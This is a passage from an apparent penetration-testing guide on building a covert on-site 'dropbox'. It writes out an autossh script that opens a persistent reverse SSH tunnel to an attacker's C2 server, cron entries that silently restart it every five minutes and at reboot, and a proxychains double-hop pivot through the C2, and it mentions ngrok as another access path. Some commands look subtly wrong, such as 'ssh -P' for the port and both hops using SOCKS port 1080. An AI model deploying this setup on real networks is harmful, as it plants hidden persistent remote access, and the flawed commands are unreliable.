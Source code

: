 ```bash
ssh -P 6667 kali@localhost
```

I chose to setup a cronjob to make sure if something happens, `autossh` will just start up again and connect to our C2.  You can also do this as a service, but I was having issues getting it to work properly.

```bash
nano /bin/autossh-connect.sh
```

```
#!/bin/bash

autossh -M 11166 -N -f -o "PubkeyAuthentication=yes" -o "PasswordAuthentication=no" -i /kali/.ssh/id_rsa -R 6667:localhost:22 root@<C2> &
```

Let's make sure the file is executable.

```bash
chmod a+x /bin/autossh-connect.sh
```

Then we setup our cronjob, to run every 5 minutes.

```bash
crontab -e
```

```
@reboot sleep 5 && /bin/autossh-connect.sh > /dev/null 2>&1
*/5 * * * * /bin/autossh-connect.sh > /dev/null 2>&1
```

Now that we have a reverse ssh connection, we are able to access our dropbox from our VPS.  I experienced this to be extremely slow.

What I would do to double hop from my own attack PC, to the C2 and then to the dropbox.

So you'll do something like this:

```
ssh -D 1080 root@c2
ssh -D 1080 -P 6667 kali@localhost
```

In your proxychains you'll have something like:
```
socks5 127.0.0.1 1080
socks5 127.0.0.1 1080
```

And this would chain it so you can run commands directly from your attack PC.  I found this to be extremely slow though.

## ngrok service

I decided to also setup [ngrok](https://ngrok.com/), as another way for me to access the dropbox once it is on site.
